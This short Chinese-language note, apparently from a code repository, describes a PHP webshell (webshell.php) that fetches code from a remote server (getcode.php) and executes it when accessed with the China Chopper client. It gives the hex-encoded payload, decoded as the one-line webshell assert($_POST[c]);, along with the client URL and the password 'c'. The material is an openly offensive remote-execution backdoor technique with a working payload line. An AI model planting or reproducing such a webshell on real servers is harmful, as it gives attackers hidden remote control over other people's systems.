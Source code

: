 写了两个脚本webshell.php和getcode.php(本地开了个php server，运行getcode.php模拟远程服务器上的网页)

原理：首先用菜刀访问webshell.php，该webshell立即从远程服务器上获取要运行的代码并执行。

这里获取的代码是61737365727428245f504f53545b635d293b，也就是assert($_POST[c]);

菜刀中设置：http://192.168.1.102/DebugPHP/webshell.php 密码是c
